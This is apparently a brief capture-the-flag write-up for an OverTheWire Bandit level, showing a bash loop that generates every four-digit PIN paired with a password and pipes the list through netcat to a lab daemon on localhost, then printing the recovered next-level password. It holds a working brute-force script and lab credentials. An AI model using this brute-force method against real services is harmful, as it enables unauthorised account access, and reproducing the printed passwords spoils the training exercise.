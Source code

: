 # Bandit Level 24  
  
In this challenge we are being introduced to the fun that is brute forcing  
  
We are given the challenge to send a daemon listning on port 30002 our password and a secret 4 digit pincode  
  
To do this the most efficient way is to write a shell script to create all of the possible passwords  
  
Here is one i came up with:  
```sh  
#!/bin/bash  
password=UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ  
  
  
for i in {0000..9999}  
    do  
        echo $password $i >> list.txt  
    done  
```  
  
we can now use the command:  
> cat list.txt | nc localhost 30002  
  
And after this churns its way through passwords it find the password is: uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG  
